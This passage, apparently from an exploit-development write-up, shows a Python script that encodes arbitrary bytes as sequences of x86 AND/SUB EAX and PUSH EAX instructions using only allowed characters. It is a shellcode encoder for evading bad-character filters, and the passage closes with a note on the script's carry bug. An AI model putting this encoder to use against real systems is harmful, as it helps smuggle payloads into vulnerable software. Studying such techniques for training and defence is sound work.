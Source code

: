 ```
allowed += "\x78\x79\x7a\x7b\x7c\x7d\x7e" # \x7f

a_int = [ord(n) for n in list(allowed)]

def findCombo(dword, three=False):
    global a_int

    matches = []
    zero = False
    carry = 0
    for x in range(0, 4):
        byte = (dword - (carry | zero)) % 256

        found = False
        l = [(f1, f2) for f1 in a_int for f2 in a_int]
        if three:
            l = [(f1, f2, f3) for f1 in a_int for f2 in a_int for f3 in a_int]

        for i in l:
            if not found and (sum(i) % 256) == byte and len(set(i) - set(a_int)) == 0:
                found = True
                carry = (sum(i) >= 0x100)
                zero = False #(byte == 0xFF)
                matches.append(i)
        dword >>= 8
    return matches

def main():
    if len(sys.argv) != 2:
        return 1

    args = ["{:02x}".format(ord(a)) for a in sys.argv[1][::-1]]
    chars = [args[i * 4:(i + 1) * 4] for i in range((len(args) + 4 - 1) // 4 )] 
    chars = ["".join(c) for c in chars]

    for group in chars:
        group += ('47' * (4 - (len(group)/2)))
        g =   int(group, 16)
        ffg = int('ffffffff', 16) - g + 1
        ffg_h = "0x{:08x}".format(ffg)

        c = findCombo(ffg)
        f = ["".join(["{:02x}".format(j) for j in list(i)]) for i in zip(*c[::-1])]
        f_sum = "0x{:08x}".format(sum([int(i, 16) for i in f]) % (2**32))
        if (ffg_h != f_sum):
            c = findCombo(ffg, True)
            f = ["".join(["{:02x}".format(j) for j in list(i)]) for i in zip(*c[::-1])]
            f_sum = "0x{:08x}".format(sum([int(i, 16) for i in f]) % (2**32))

            if(ffg_h != f_sum):
                print ("# {0} -> {1}".format(ffg_h, f_sum))
        print "\n".join(["AND EAX, 0x{0}".format(i) for i in ("554e4d4a", "2a313235")])
        print "\n".join(["SUB EAX, 0x{0}".format(j) for j in f])
        print "PUSH EAX\n"

    return 0

if __name__ == "__main__":
    sys.exit(main())
```
Even though `0xFF` isn't technically a bad character, the script has a bug that 
keeps it from properly encoding that character when it's preceded by a byte that
overflows and carries a `1` into the next position.